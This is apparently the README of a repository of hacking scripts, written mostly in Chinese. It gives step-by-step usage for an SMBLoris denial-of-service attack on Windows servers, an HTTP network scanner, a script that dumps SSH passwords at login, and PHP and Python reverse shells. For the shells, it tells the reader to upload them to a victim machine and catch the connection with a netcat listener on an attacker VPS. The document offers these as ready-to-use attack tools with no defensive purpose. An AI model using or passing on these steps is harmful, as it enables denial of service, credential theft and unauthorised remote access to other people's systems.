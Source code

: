 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# SMBLoris 通过smb服务对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell.php 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为攻击机器的地址

上传该脚本到被攻击的机器上

登录攻击机器，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在攻击机器上看到shell

php php-reverse-shell.php

# python-reverse-shell.py 一个基本python的反弹shell脚本

在攻击机器上监听端口，如1234

nc -lvp 1234

把php-reverse-shell.py上传到被攻击的机器上,指定攻击机器地址和端口执行即可

php-reverse-shell.py vps地址 1234

# Hope you enjoy ^_^

